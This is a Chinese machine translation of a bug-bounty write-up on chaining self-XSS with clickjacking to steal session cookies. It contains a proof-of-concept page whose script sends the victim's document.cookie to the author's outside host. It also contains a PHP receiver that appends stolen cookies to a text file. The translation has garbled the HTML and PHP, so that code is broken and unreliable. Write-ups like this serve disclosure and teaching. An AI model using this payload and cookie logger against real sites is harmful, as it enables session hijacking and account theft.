



# 将自己的 XSS 与 UI 调整链接在一起会导致会话劫持(PWN 用户就像老板一样)

> 原文：<https://infosecwriteups.com/chaining-self-xss-with-ui-redressing-is-leading-to-session-hijacking-pwn-users-like-a-boss-efb46249cd14?source=collection_archive---------2----------------------->

当我测试 web 应用程序时，我发现了自己的 xss。这没有任何影响。但我想利用这个漏洞，所以我开始思考如何利用这个自我 xss，然后我决定将这个自我 xss 与其他一些漏洞联系起来。

于是又一次盯着找 CSRF 进攻，而我却一力把 CSRF 弄到了脆弱的一页。

但是我注意到应用程序没有使用 x 帧头。所以想让我们检查点击劫持。！
耶！应用程序易受点击劫持的攻击。

所以决定用点击劫持来连锁自己的 xss。

这里是点击劫持，这是与自己的 xss 抓取受害者的饼干连锁。

<头> <名头>Poc</名头>
<身 bgcolor = " gray ">
<h1 align = " center ">拖 N 坠游戏</h1>
 br> 
location = `[http://armaanpathan.pe.hu/cookies.php?cookie = `+btoa(document . cookie)](http://armaanpathan.pe.hu/cookies.php?cookie=`+btoa(document.cookie))</script>')">

<iframe src = " www . victim . com "></iframe>
<H2>拖动图片到这里</H2>
</html>

下面是将抓取的 cookies 保存在 txt 文件中的代码

$c=$_GET[‘cookie’];
FILE _ put _ contents(" cookies . txt "，$c . "\n\n "，FILE _ APPEND)；

?>

是的，我可以劫持任何用户的会话。

这是概念验证视频

空间感谢 [**拉胡尔·麦尼**](https://twitter.com/iamnoooob) **。谢谢你帮助我。:)**

感谢阅读。:)